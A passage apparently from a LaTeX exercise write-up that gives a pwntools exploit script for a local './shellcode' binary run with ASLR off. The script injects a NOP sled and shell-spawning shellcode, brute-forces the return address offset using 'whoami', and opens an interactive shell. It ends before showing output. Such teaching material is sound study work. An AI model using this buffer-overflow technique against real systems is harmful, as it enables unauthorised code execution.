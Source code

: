 Below is an implementation of the exploit described above.
\begin{lstlisting}
#!/usr/bin/python
from pwn import *
import sys

context.arch   = "amd64"
debug_buf_addr = 0x7fffffffde88
guessing_range = 200

def payload(offset):
    return sled + shellcode + p64(debug_buf_addr + offset)

shellcode = asm("add rsp, 0x38") + asm(shellcraft.sh())
sled = asm("nop") * (80 - len(shellcode))

# use the specified offset if provided
if len(sys.argv) > 1:
    p = process("./shellcode", aslr=False)
    p.sendline(payload(int(sys.argv[1])))
    p.interactive()
    exit(0)

# guess several offsets and store the ones that work
working_offsets = []
for offset in range(-guessing_range, guessing_range, len(sled) / 2):
    log.info("Trying offset {}".format(offset))
    p = process("./shellcode", aslr=False)
    p.sendline(payload(offset))
    p.readuntil("action.\n")

    # trying sending a shell command and checking the response
    try:
        p.sendline("whoami")
        if p.recv(timeout=0.1) != "":
            log.success("Offset {} works!!!".format(offset))
            working_offsets.append(offset)
    except EOFError:
        pass

if working_offsets:
    # spawn a shell using the average working offset
    avg_offset = sum(working_offsets) / len(working_offsets)
    log.success("Spawning shell with offset {}".format(avg_offset))
    shell = process("./shellcode", aslr=False)
    shell.sendline(payload(avg_offset))
    shell.interactive()
else:
    log.failure("No working offsets found")
\end{lstlisting}

This exploit gives the following output when run:

